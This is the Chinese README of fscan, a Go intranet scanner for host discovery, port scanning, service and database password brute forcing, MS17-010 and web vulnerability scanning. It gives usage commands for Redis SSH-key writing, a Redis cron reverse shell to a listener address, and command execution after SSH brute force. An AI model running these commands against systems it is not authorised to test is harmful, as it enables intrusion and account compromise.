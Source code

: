# fscan

# 简介
一款内网综合扫描工具，方便一键大保健。    
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描等。  
使用go来编写，有较好的扩展性及兼容性,编译后无需依赖库。    
项目还在快速迭代期，每次更新代码，都会重新修改releases。  
目前还在逐步增加功能，欢迎各位师傅提意见。

## 主要功能
1.信息搜集:
* 存活探测(icmp)
* 端口扫描

2.爆破功能:
* 各类服务爆破(ssh、smb等)
* 数据库密码爆破(mysql、mssql、redis、psql等)  

3.系统信息、漏洞扫描:  
* 获取目标网卡信息
* 高危漏洞扫描(ms17010等)  

4.Web探测功能:
* webtitle探测
* web指纹识别(常见cms、oa框架等)
* web漏洞扫描(weblogic、st2等,支持xray的poc)

5.漏洞利用:
* redis写公钥或写计划任务
* ssh命令执行

6.其他功能:
* 文件保存

## usege
简单用法
``` 
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法
```
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
```
编译命令
```
go build -ldflags="-s -w " -trimpath
```

完整参数
```
   -Num int
        poc rate (default 20)
  -c string
        exec command (ssh)
  -cookie string
        set poc cookie
  -debug
        debug mode will print more error info
  -domain string
        smb domain
  -h string
        IP address of the host you want to scan,for example: 192.168.11.11 | 192.168.11.11-255 | 192.168.11.11,192.168.11.12
  -hf string
        host file, -hs ip.txt
  -m string
        Select scan type ,as: -m ssh (default "all")
  -no
        not to save output log
  -nopoc
        not to scan web vul
  -np
        not to ping
  -o string
        Outputfile (default "result.txt")
  -p string
        Select a port,for example: 22 | 1-65535 | 22,80,3306 (default "21,22,80,81,135,443,445,1433,3306,5432,6379,7001,8000,8080,8089,9200,11211,270179098,9448,8888,82,8858,1081,8879,21502,9097,8088,8090,8200,91,1080,889,8834,8011,9986,9043,9988,7080,10000,9089,8028,9999,8001,89,8086,8244,9000,2008,8080,7000,8030,8983,8096,8288,18080,8020,8848,808,8099,6868,18088,10004,8443,8042,7008,8161,7001,1082,8095,8087,8880,9096,7074,8044,8048,9087,10008,2020,8003,8069,20000,7688,1010,8092,8484,6648,9100,21501,8009,8360,9060,85,99,8000,9085,9998,8172,8899,9084,9010,9082,10010,7005,12018,87,7004,18004,8098,18098,8002,3505,8018,3000,9094,83,8108,1118,8016,20720,90,8046,9443,8091,7002,8868,8010,18082,8222,7088,8448,18090,3008,12443,9001,9093,7003,8101,14000,7687,8094,9002,8082,9081,8300,9086,8081,8089,8006,443,7007,7777,1888,9090,9095,81,1000,18002,8800,84,9088,7071,7070,8038,9091,8258,9008,9083,16080,88,8085,801,5555,7680,800,8180,9800,10002,18000,18008,98,28018,86,9092,8881,8100,8012,8084,8989,6080,7078,18001,8093,8053,8070,8280,880,92,9099,8181,9981,8060,8004,8083,10001,8097,21000,80,7200,888,7890,3128,8838,8008,8118,9080,2100,7180,9200")
  -ping
        using ping replace icmp
  -pocname string
        use the pocs these contain pocname, -pocname weblogic
  -proxy string
        set poc proxy, -proxy http://127.0.0.1:8080
  -pwd string
        password
  -pwdf string
        password file
  -rf string
        redis file to write sshkey file (as: -rf id_rsa.pub)
  -rs string
        redis shell to write cron file (as: -rs 192.168.1.1:6666)
  -t int
        Thread nums (default 600)
  -time int
        Set timeout (default 3)
  -u string
        url
  -uf string
        urlfile
  -user string
        username
  -userf string
        username file
  -wt int
        Set web timeout (default 5)
```

## 运行截图

`fscan.exe -h 192.168.x.x  (全功能、ms17010、读取网卡信息)`
![](image/1.png)

![](image/4.png)

`fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写公钥)`
![](image/2.png)

`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`
![](image/3.png)

`fscan.exe -h 192.168.x.x -p80 -proxy http://127.0.0.1:8080 一键支持xray的poc`
![](image/2020-12-12-13-34-44.png)


## 参考链接
https://github.com/Adminisme/ServerScan  
https://github.com/netxfly/x-crack  
https://github.com/hack2fun/Gscan  
https://github.com/k8gege/LadonGo   
https://github.com/jjf012/gopoc

## 最近更新
[+] 2021/3/4 支持-u url或者-uf url.txt,对url进行批量扫描  
[+] 2021/2/25 修改yaml解析模块,支持密码爆破,如tomcat弱口令。yaml中新增sets参数,类型为数组,用于存放密码,具体看tomcat-manager-week.yaml  
[+] 2021/2/8 增加指纹识别功能,可识别常见CMS、框架,如致远OA、通达OA等。  
[+] 2021/2/5 修改icmp发包模式,更适合大规模探测。   
修改报错提示,-debug时,如果10秒内没有新的进展,每隔10秒就会打印一下当前进度    
[+] 2020/12/12 已加入yaml解析引擎,支持xray的Poc,默认使用所有Poc(已对xray的poc进行了筛选),可以使用-pocname weblogic,只使用某种或某个poc。需要go版本1.16以上,只能自行编译最新版go来进行测试    
[+] 2020/12/6 优化icmp模块,新增-domain 参数(用于smb爆破模块,适用于域用户)  
[+] 2020/12/03 优化ip段处理模块、icmp、端口扫描模块。新增支持192.168.1.1-192.168.255.255。  
[+] 2020/11/17 增加-ping 参数,作用是存活探测模块用ping代替icmp发包。   
[+] 2020/11/17 增加WebScan模块,新增shiro简单识别。https访问时,跳过证书认证。将服务模块和web模块的超时分开,增加-wt 参数(WebTimeout)。    
[+] 2020/11/16 对icmp模块进行优化,增加-it 参数(IcmpThreads),默认11000,适合扫B段  
[+] 2020/11/15 支持ip以文件导入,-hs ip.txt,并对去重做了处理